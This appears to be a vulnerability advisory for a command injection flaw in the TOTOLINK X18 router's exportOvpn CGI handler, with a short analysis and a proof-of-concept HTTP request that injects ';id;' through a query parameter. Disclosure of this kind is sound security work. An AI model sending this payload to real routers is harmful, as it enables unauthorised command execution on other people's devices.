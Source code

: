 #  TOTOLINK_X18 Command Injection

verdor name: TOTOLINK

model: X18 AX1800

version: V9.1.0cu.2053_20230309

firmware: https://www.totolink.tw/support_view/X18

![image-20241211140104632](main.assets/image-20241211140104632.png)

**Description**

The `user` parameter in the `main` function is vulnerable to command injection.

**Analyse**

When the `exportOvpn` function is called with `type=user`, the user input is retrieved via `getNthValueSafe` without any filtering. It is then concatenated using `snprintf` and passed to `system` for execution, leading to a command injection vulnerability.

![image-20241211142606889](main.assets/image-20241211142606889.png)

**poc**

```
GET /cgi-bin/cstecgi.cgi?exportOvpn&type=user&123=;id; HTTP/1.1
Host: 192.168.100.2
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

![image-20241211144313855](main.assets/image-20241211144313855.png)